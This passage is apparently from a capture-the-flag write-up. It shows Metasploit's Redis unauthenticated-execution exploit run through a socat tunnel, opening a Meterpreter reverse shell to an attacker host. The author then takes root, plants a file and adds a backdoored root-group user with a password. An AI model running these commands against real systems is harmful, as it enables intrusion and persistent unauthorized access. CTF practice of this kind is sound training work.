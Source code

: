 Well, let's pop Redis server through our Mario socat plumbing tunnel as a starting point:

```
msf5 > use exploit/linux/redis/redis_unauth_exec
msf5 exploit(linux/redis/redis_unauth_exec) > set SRVHOST hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > set LHOST hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > set RPORT 7778
msf5 exploit(linux/redis/redis_unauth_exec) > set RHOSTS hacker.box
msf5 exploit(linux/redis/redis_unauth_exec) > check
[+] hacker.box:7778 - The target is vulnerable.
msf5 exploit(linux/redis/redis_unauth_exec) > exploit

[*] Started reverse TCP handler on hacker.box:4444
[*] hacker.box:7778   - Compile redis module extension file
[+] hacker.box:7778   - Payload generated successfully!
[*] hacker.box:7778   - Listening on hacker.box:6379
[*] hacker.box:7778   - Rogue server close...
[*] hacker.box:7778   - Sending command to trigger payload.
[*] Sending stage (3012516 bytes) to 34.254.152.68
[*] Meterpreter session 1 opened (hacker.box:4444 -> 34.254.152.68:41428) at 2020-04-29 22:34:53 +0000
[!] hacker.box:7778   - This exploit may require manual cleanup of './aykosiug.so' on the target

meterpreter > shell
Process 22 created.
Channel 1 created.

id
uid=0(root) gid=0(root) groups=0(root)

echo "hello friends. charge your lazerz" > /glennzw_waz_here.txt
useradd -m -g root glennzw 
echo -e "domhackslikeaclown\ndomhackslikeaclown" | passwd glennzw

cat /etc/passwd | grep glenn
glennzw:x:1000:0::/home/glennzw:/bin/sh
```

Also found the flag here:
```
cat /tmp/data.redis
SET flag3 SP-d5d8f27b7d7ddb7c925ad6b74a40b7e5
SET notes Whoops-This-Server-Was-A-Mistake!-Thats-all-there-is-here-the-last-flag-is-behind-you 
```

Hm, now where is that flag? Guess we should follow the clue and go back to the webserver.


Back on the webserver box, let's check if we have sudo access:

`sudo -v`

No error, so we do.

And what can we sudo?

